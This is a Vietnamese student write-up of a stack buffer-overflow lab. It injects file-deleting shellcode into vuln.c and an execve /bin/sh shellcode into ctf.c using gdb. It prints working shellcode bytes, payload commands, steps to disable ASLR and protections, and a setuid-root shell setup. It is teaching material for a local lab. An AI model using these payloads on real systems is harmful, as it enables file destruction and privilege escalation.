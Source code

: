 Lab 2:\
chạy docker:\
`docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab`
# Inject code to delete file: file_del.asm is given on github

## chú ý lớn!!!
- bài lab1: file_del.asm chú ý tới các dữ liệu \x0a và \x00
- bài lab2: ctf.c không cần lấy quyền shell mà cần truy cập vào và chạy được hàm `myfun`

Ý tưởng:

-   Program injected: file_del.o được biên dịch từ file_del.asm
    
-   Đối tượng bị chèn vào: vuln.c

Các bước:

1. Dịch mã máy từ file_del.asm thành file_del.o\
    `nasm -g -f elf file_del.asm `\
 ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcQIVWHD1iadEHZep9K55e_2ob3jPBDXtqATQvb2qYfaehaLJTSHs5a559M3ou6fiOHEsKmc6uHWB5tCYEX2KMpToq_9tXAv-cxStpYBDMPx3IIIezR5eGXcBnO3N3sBblCRcEaAfaMxKcXvaIU2hL0fgY?key=x066aHYoH5XtbJjV6Ng-LQ)

2. Link file_del.out với lệnh file_del\
`ld -m elf_i386 -o file_del file_del.o `\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe3OoBdDkJp7idolhrmbYqguAbCsucW-GmHHkZTe7K612tfmLV4TcLGM9eU9VmJvhigM5Is-yV1iPp2QqhUUA96KnBvI157uJHKOeWYpOZCPYhGqKFnYaR3qMZJ4BoCFRs3tJ3TnzWya98PaqG3p9GkbRg?key=x066aHYoH5XtbJjV6Ng-LQ)\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXegracxlM1zwXtsRKM-UvdedDnAFX7Rr0_y1f9hk69cyo_QVk_ABSouIeEUqBqqnBYj2XhFaAFa4INaItF92kdju1VYlmu7LCYn0S939wzsQUQInbKMfzjNC4U5voC61pBVK89nIfzHdLzBcs4MsHKcHF-_?key=x066aHYoH5XtbJjV6Ng-LQ)
    
3. Disassem chương trình file_del  
`objdump -d file_del `\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdTjMDyYv459ARkFwM9iVfszV8aeJE3pogQ5IPYlufXx9Gf1qQDDftJlwaLM5yJiLbRZYtzNP-EaMvejM5RU950YWJxdHmzckZM0Q7UdjbeUO2Bi92d8AULobsOv6Re5rWjZQ6TGi7CHwxng5A7CPMoBDY?key=x066aHYoH5XtbJjV6Ng-LQ)
    
4. dịch chương trình file_del từ hợp ngữ thành mã máy  
`for i in $(objdump -d file_del | grep "^ " | cut -f2);do echo -n '\x'$i; done; echo`![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfYe2o8lL9kwg5bMXu5xrWoTK0nbyTZOfOgPZHnBrPs2UN3J3_hDuEBJ146ykJ9eTJakeoCwk09ebR_U4ZLgwJ3JPdjFAYH_G1EI_5crtOycEp9wxnL6cMFy4aNGHSWCuqsJ1KoJ2WO386-E3fueU9RqM8?key=x066aHYoH5XtbJjV6Ng-LQ)  
Kết quả cho ra là: `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.`
    
5.  Dịch chương trình đối tượng: vuln.c thành vuln.o  
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeZ9ABA_1KiObJj2QUfm6Hy0BQ6SDoLV799XuttVum_Da6bMdiU-LALTjo86pyipoozIXO9kPrxy60iQeC3Cgvy3fMbLJoKTqHTQkVKQ-L-p4m1uOSpWZWKsFD3TXLvw8g_HO84sy0dn-HW8zux31lIarNM?key=x066aHYoH5XtbJjV6Ng-LQ)
    
6.  aaa  
`sudo ln -sf /bin/zsh /bin/sh`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcB9mQh9boKp_0s3id9x_TNV91mrWeBvm6giv1E19Y358fttoRP8wzQybKpKhyhgKIYMp7qvA1d4rit8dM15g8Pukrfs161es2HPhcYO24Ka3RPjyUkDUYNkSfwkMsmW-Q4Q3vfiRSq8y4c6zZp1K3O3uI1?key=x066aHYoH5XtbJjV6Ng-LQ)  
    (Password: dees)
    
7.  Debug chương trình đối tượng vuln.out  
`gdb -q vuln.out`\
(P/s: -q Quite: không bla bla, chạy thẳng vào chương trình debug. Demo below:)
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeOZuT-Y-D8xTgQBQrJQ-cXwgbygc-iFygnB75Z1qQvpNNsWYlA_cbCPUhAbX7PMiuf34GHBlieU_948BYMNjBZbKzS_XNbEvlTZUNh6iJVLnE04B8F1UvrRExk2Bvgja6DkTl9IBmWBL211usvNf_1ASzY?key=x066aHYoH5XtbJjV6Ng-LQ)
    
8.  Disassemble hàm main để đặt breakpoint trước và sau khi chạy lệnh strcpy\
`disas main`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfAvMCRd8vadEfkSaTVBCoZ342_LVShHjvyN91qksvL1yJGLZRjfWF2PXPEQ4ILy76HmtYIUSIQ0EmAJTOixGPRBfFIElYRTQk4VF_rpz2j251MbyQL6IYW2QkJul-Ybz9pmK_T8UoSAVexqbN5cS_TUh4?key=x066aHYoH5XtbJjV6Ng-LQ)
1.  Đặt breakpoint tại vị trí 1 và 2 theo hình trên:  
    Lý do:
    - Sau khi chương trình đã hoàn thành khởi tạo stack: push ebp vào stack, lưu esp = ebp, push biến khởi tạo (char buf[64]) vào trong stack (0x40 là 64 byte ở dạng thập lục)  
    - Sau khi hoàn thành lệnh strcpy và đã giải phóng ebp và trở về return address (‘ra’)  
    Bằng lệnh:\
    `b *0x08048441`\
    `b *0x0804846b`\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXddHftwjaIAomnUfTJbftN778zpVZ7UGwCBSxIZfyjFhr-LKIfp3OEiALnL301NVmJmIO82_EB7UizAap2boWu8ceWCdBSGEN9tXU2jAEWXiRYtNhE0ThPofS5SUFLy6taM1zBIhgCsYpNWHdlTSIpyn7vm?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Extra: Kiểm tra breakpoint bằng `info breakpoint` và xoá breakpoint bằng lệnh `del [số thứ tự của breakpoint]`
    
2.    Chạy debug chương trình vuln.out với giá trị đầu vào của argv[]  
 `r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65' + 'a' * 23 + '\xff\xff\xff\xff')")`\
Giải thích: r Run chương trình python [...]\
`print(“[chương trình file_del ở dạng mã máy] + ‘a’ 23 lần + [giá trị ngẫu nhiên]”)`\
Giải thích về ‘a’ 23 lần:\
Stack của hàm main()\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfd6JeOXapIP7aCfbg4igVY2MpOmVbFiGD7LE8d4SOo7c3pcZr84dJY9nzmbaxlUOg_ynd7RZJXJUmQOmIWjK_YLcXVz2CvDR7t_2sfwvOA22EvF64c-C6ajoD3lT5KJThR2UrEzAa23sbQ3OkBLGn8eNR6?key=x066aHYoH5XtbJjV6Ng-LQ)\
    Ảnh chi tiết từ buf đến ‘ra’ của stack main  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeCyYQ75GmFBipRzNUaydXbMvXR8RN4B3hlsIOJsqMyJ9E0GRhn_o2I2Fu9bsYjiKrOjE7BapKD7w4yiTk0N6_4oy5dhPgO1g1CkGy55vfiJXW6l45u_7nhjPkQm--p5a3xnUkSR0Kk6spOttI8a59PVv4z?key=x066aHYoH5XtbJjV6Ng-LQ)\
    biến buf có dung lượng là 64 bytes, chúng ta cần ‘tiêm’ chèn vào trong biến mất 45 bytes nghĩa là buf còn lại 19 byte và chúng ta cần fill hết 19 byte đó bằng ký tự ‘a’  
    Phía dưới của biến buf là ebp (base pointer aka frame pointer/ extended base pointer) có dung lượng là 4 bytes và chúng ta cũng cần fill với 4 ký tự ‘a’\  
    Đến ‘ra’ cũng có dung lượng là 4 bytes và đó là nơi chúng ta lưu vị trí của chương trình file_del cũng là địa chỉ của con trỏ esp (extended stack pointer) (sau khi hoàn thành stack thì con trỏ esp luôn ở trên cùng của stack nghĩa là ở trên của biến cuối cùng được thêm vào)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeHTpass1StoowTLUFxMn5xafGO36vV_wkI_SVay1hUVfVpCTx_V-cVMbZ26_gO8vpIVfkfMjgM9MwBwRbBBkC2pQpa53TZMHgLaDskrvPZbu1qMdySVA9GMuBuWGwRJjwnYSXMUxrsPD5k7C7Cixcq1V3G?key=x066aHYoH5XtbJjV6Ng-LQ)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdDv9Eu7I5ni-Qh99r9_2cDX1SA5yUocwOZ-_t8aoHKVIQLW4280dUStXPoZ5PMc8_wSDFxeFsh5VZBnCwcYdbCNhfn3D0x7nSxG6Qyo81BGRsyeU_3-J1QrR8r9HHupKCC1-tih8KqefnydkyBma1sC4t9?key=x066aHYoH5XtbJjV6Ng-LQ)\
1.    Xuất 80 bytes từ con trỏ esp\
`x/80xb $esp`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdSCmk5Hs5I3KhndgTpi8Diiw9MUqPooEtUFEmbJKUg1Yyww2TGvfHu2B0zfreqNlEI30t3P1tXPthdHfvxojq8aiFJ22GvszBolgGJBU7KN4KJ0BqYpTA193aX93xVwLuYfx4BEHPrAnQImnjegUJ8-xF4?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Giải thích: Tại sao lại là 80 bytes\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcQPYE671s2lYTm_FHnyDs6ZXezisSA_vVuGfHwpt8IW1VgBDZiKtSvEX5bEpEegM0qnaMouMNDjwx7jgo8XtibTHEPY7Ls2olWQZ9qTJnlYrnVn-5-PLEcLmUXgY2I5SRxf5lF2W1A9WtKvsLoppU9OflW?key=x066aHYoH5XtbJjV6Ng-LQ)\
    Stack của hàm main gồm argv[] 4 bytes, argc 4 byte, ‘ra’ 4 bytes, ebp 4 bytes, buf 64 bytes. Tổng là 4 + 4 + 4 + 4 + 64 = 80 bytes  
    Nghĩa là stack của hàm main có 80 bytes và con trỏ esp ở trên cùng của stack. Từ đó xuất 80 bytes từ con trỏ esp nghĩa là xuất hết các giá trị trong stack\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe4ou9j0EvlDEoy84oX1NZkeSuU2MBEtUCOl1vg8LqEfihixKp4_0GDtnzdJLH_OQg0Oym1_zjIu_yhFIpurQWk0zrA_3gtYpVI11DBxzDAKh6eL1bhgHDsshPRGePL8zZV3RVAi2mEJxurr6OW3VZp168J?key=x066aHYoH5XtbJjV6Ng-LQ)\
1.    Chèn vị trí của esp (phía trên buf để chạy chương trình được chèn ở đầu buf) vào ‘ra’ để chương trình khi kết thúc stack sẽ chạy buf  
    *** Nhớ là set sau khi chương trình đã được chèn sau khi lệnh strcpy đã được thực thi nhá!\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf1JUcca3oVFNhL4CKPK7T6KwycCIwyRycYLkaKNHFoNmyegmElOxY1fm6zTzDYQG7z3eJobQkiSEhX34c4iw0xxhatSKXEtDGoWlGui_NRSWTWZJDTI82civeUI3K1b0ulrCWC8O8vmddHbr78nq6Abtg?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Done

# Conduct attack on ctf.c

 1.  Chuẩn bị môi trường để tấn công:  
    Tắt cấp phát địa chỉ stack ngẫu nhiên để dễ kiểm soát địa chỉ stack:mặc định là 2  
    `sudo sysctl -w kernel.randomize_va_space=0`\
    Tạo symbolic link tới zsh thay vì sh (default) để tránh bị ngăn chặn root từ Ubuntu  
    `sudo ln -sf /bin/zsh /bin/sh`
 2.  Biên dịch chương trình sh.asm thành sh.o rồi link thành sh để thực thi  
    `nasm -g -f elf sh.asm` -> tạo ra file sh.o\
    `ld -m elf_i386 -o sh sh.o` -> tạo ra file sh
 3.  sh là chương trình lấy quyền điều khiển của chương trình. Khi thực thi .sh sẽ xuất hiện shell ký hiệu là ‘$’ nghĩa là quyền thực thi chương trình của user seed (user hiện tại) chứ k phải quyền điều khiển root (administrator của window)\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdjWDrbmUojSXG2gSFc_rOfuPSMlVR6J-T80CbvtVILtQ3U-fxuyBjXYnqG_FNX7byv269EYQgmxAe6QTZyjUqK-yf4tCax4QDkrdiN1encz7Tqpj7D6UevY-qv0HDlgWU8IXM6jVLC8WkZ30eVN-1gL5M?key=x066aHYoH5XtbJjV6Ng-LQ)\
    Để *leo thang đặc quyền* cho chương trình sh có quyền của root ta thực hiện các thao tác sau.
 4.  Chuyển quyền sở hữu của file sh cho root 
    `sudo chown root sh`\
    (P/s: password là dees)\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdWMukUtYhNT4Nn661GgLPqcigp1s7Bbl5_WM920XBqHtfKfuKXbaiyFAE_fAKKsfBP9Abj3YaqLTGHYCIy3YvMGS2d_SSrkF0UZTvfwoEn2LlZiAWECLowpefRIbp0IfSMqAwqThSnL0CPiPDkQPpGkoDu?key=x066aHYoH5XtbJjV6Ng-LQ)\
    1.  Thay đổi quyền truy cập của file sh thành 4755  
   `sudo chmod 4755 sh`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfJ0xaiH5bGbpyg07UphikAeWl0stG2k-9bG1U8quXxBxmz5FOihtScQjqhwNzm95eP6DRKyUwFG4gF7UpDjW44kE9qxlre2vUHd-gjUZut4oRm1EHugLl7WgIRz_BH6EZMVyI9vPyl0uElMdn2nksGbAG0?key=x066aHYoH5XtbJjV6Ng-LQ)  
    [Giải thích:      
    ](https://www.youtube.com/watch?v=lNEa855uipg)chmod Change mod  
    4 là chạy với quyền thực thi của owner thay vì là user, ở đây là quyền của root thay vì là của seed\
    7 là các quyền của owner: rwx là read write execute\
    5 là các quyền của group owner: r-x là read and execute\
    5 là các quyền của other user: r–x là read execute\
 1.  Sau đó chạy chương trình sh bằng `./sh`    
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfeLt4eWpp9H-LUhnnVA9go06SZWerG_iH10Z2sJEGlFkWDNSgK041MPHRCCoxLAaifCS3mXN5T419Pbfpy0Vce3KjPeXYZH9I0TbOFp0aczjgMvJ8eprFwn3UN9WxT33aLL64JD21d1bOtOYSfCvp0utDh?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Dấu # sẽ hiện ra nghĩa là đang thực thi shell ở quyền root thay vì $ của user  
    Thoát bằng lệnh exit    
 1.  Biên dịch chương trình đối tượng ctf.c thành ctg.out với tắt các cơ chế bảo vệ để có thể tấn công:  
`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`
 1.  Rã chương trình sh thành opcode  
`for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`\
    Kết quả cho ra:\
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80  `\
    size: 27 bytes  
Debug chương trình ctf.out  
    `gdb -q ./ctf.out`  
Sau đó rã hàm vuln và tìm vị trí của chương trình trước khi chạy strcpy và sau khi đã khởi tạo stack\
    `disas vuln`\
    Tạo breakpoint tại các điểm trước và sau khi strcpy\
    `b *0x080485b3`\
    `b *0x080485c5`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe3i-Kb3Y6-4mdXDGx_SJBT4PeH2fjs8nbhCqYEfdS06sCekFfN1HC2pTVyUU_Q24H_MLbficsmxVcdUaFNy_uVWNSdNqcx0JZZ8Wr9BYaMaSlFJrsg_GvaOrhqsV2M9Ks15lxsDcgqIbWDBP2tge9C8yNq?key=x066aHYoH5XtbJjV6Ng-LQ)
 1. Chạy debug chương trình\
`r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80' + 'a' * 77 + '\xff\xff\xff\xff')")`\
Trong lần đầu chạy thì chương trình sẽ dùng ở breakpoint
1. Dùng lệnh `x/108xb $esp` để xuất 108 bytes kể từ địa chỉ của con trỏ esp.\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdpuCT8PuyM6RgJHGoMm2Ct18_9HdO0kOFmKmWKnIuyRYaQVE9m7_lchyRN6qapxW9u49QFAilQDM8bS5AVjsL8XTgyQDNXK02C3xYqzbRUiZ_0yYKDClUet9JxbQGRoCkX37_xfoRG8-Jek8CVg1ApOy9Z?key=x066aHYoH5XtbJjV6Ng-LQ)\
Tiếp tục chương trình bằng lệnh `continue` để đến breakpoint 2.\
Dùng lệnh `x/108xb $esp` để xuất 108 bytes kể từ địa chỉ của con trỏ esp.
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXca0HqNLeIUkPjoaxLj4-ARRXDTrdT-ybpOfs6D2-jn8vwyzymxjDfWs-HwCy4oHCDsrsJyGRRPEBGDB2M5vExdvCH4o4ekCpqY3SrVXVjqdNV6RELQHhZPorSLVgO3J044UsbSfwovPrd6VN1RGB31Yih0?key=x066aHYoH5XtbJjV6Ng-LQ)\
Chương trình sh đã được chèn thành công vào trong buf[100] của chương trình ctf.out\
Chúng ta cần thay đổi địa chỉ của 'ra' thành địa chỉ của esp là địa chỉ xuất phát của chương trình được tiêm vào.\
`set *0xffffd6e0 = $esp`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfGOnFEzJ_1UQhRK4IywOlc59rBKJbLnrcqXipIsoAiBdUP2XlVqtWruwgJsHRWmzlB9p6LBBhIuh-qPR6JJY2YnZ6uLhCXIssncTiyR8gDYA0qBCAXeVVuebCc2za7lb3G9TkmsuOLSlWeh0cXSB3mc-kA?key=x066aHYoH5XtbJjV6Ng-LQ)\
*Giải thích: vì sao lại là 0xffffd6e0*\
*Vì tại địa chỉ bắt đầu của 'ra'*